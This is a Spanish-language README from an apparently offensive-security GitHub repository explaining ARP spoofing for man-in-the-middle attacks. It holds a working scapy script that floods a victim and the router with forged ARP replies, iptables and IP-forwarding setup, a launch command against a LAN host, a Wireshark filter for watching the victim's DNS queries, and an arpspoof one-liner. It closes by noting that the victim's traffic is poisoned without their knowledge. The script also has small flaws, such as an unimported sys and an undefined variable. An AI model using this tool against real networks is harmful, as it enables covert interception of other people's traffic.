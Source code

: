 El concepto de **Man-In-The-Middle** (**MITM**) es crucial aquí, ya que el atacante se posiciona estratégicamente entre dos partes para interceptar o modificar el tráfico de datos, una táctica común en ataques cibernéticos. Esta técnica es posible debido a la naturaleza de confianza del protocolo ARP, que no verifica si las respuestas a las solicitudes ARP son legítimas.

![arpspoofer drawio](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/7355a77a-eb73-4200-b9c0-44d0f96464ed)


- El atacante debe hacer creer al **Router** que la **IP** de la victima viene vinculada a mi dirección **MAC** enviando una respuesta falsificada.
- El atacante debe hacer creer a la maquina **victima** que la **IP** del Router tiene nuestra **MAC**, así alteramos la caché de ambos dispositivos alterando la Mac vinculada.

1 - Lo primero que debemos hacer es permitir aceptar paquetes entrantes para luego enviarlos al destino

```bash
iptables --policy FORWARD ACCEPT
```

2- Luego el ip_forward debe de estar seteado a 1, para después comunicarnos al destino legitimo. Si no lo hacemos, la victima no va a poder navegar después.

```bash
cat /proc/sys/net/ipv4/ip_forward
```

![Pasted image 20240426135703](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/45136e52-bd8c-4f1d-8b37-5822be0e6978)


> Nos generamos una MAC aleatoria a modo de control para verla en el pc victima, esto lo podemos hacer con la aplicación macchanger de este mismo repositorio.

![Pasted image 20240426150023](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/572cf6e8-9bd6-4388-b808-865515b9d5e7)


----

# arp_spoof.py

```python
#!/usr/bin/env python3
import scapy.all as scapy
import argparse
import time
import signal
from termcolor import colored

def signal_handler(sig, frame):
    print(colored(f"\n[!] Saliendo del programa...", 'red'))
    for sock in open_sockets:
        sock.close()
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)


def get_arguments():
	parser = argparse.ArgumentParser(description="ARP Spoofer")
	parser.add_argument("-t", "--target", required=True, dest="ip_address", help="Host / IP Range to Spoof")

	return parser.parse_args()
	

def spoof(ip_address, spoof_ip):
    # valor 1, es una solicitud, 2 una respuesta, (en este caso nadie la solicitó)
    arp_packet = scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66") # creo una respuesta ARP
    scapy.send(arp_packet, verbose=False)


def main():
	arguments = get_arguments()
	while True:
		spoof(arguments.ip_address, "192.168.1.1") # objetivo - Router
		spoof("192.168.1.1", arguments.ip_address) # se imvierte para hacer el proceso pero a la victima
		time.sleep(2)


if __name__ == '__main__':
	main()
	
```

```python3
sudo python3 arpspoof.py -t 192.168.1.155
```


> Una vez lanzada la aplicación, si abrimos el Wireshark filtrando por dns, veremos todas las solicitudes de la victima. 
   Si probamos a abrir una web, veremos que la estamos interceptando.
   Podemos filtrar por **dns** o por la info que veamos en el programa, por ej: **dns.qry.name == "hackerone.com"**

![flameshotspoof](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/cae9af52-2145-4d45-b74c-78ab7c35c981)



Y ya estaremos envenenando el trafico sin que se enteren.


Otra herramienta que automatiza todo es **arpspoof** funciona así:
```bash
arpspoof -i eth0 -t 192.168.1.155 -r 192.168.1.1
```

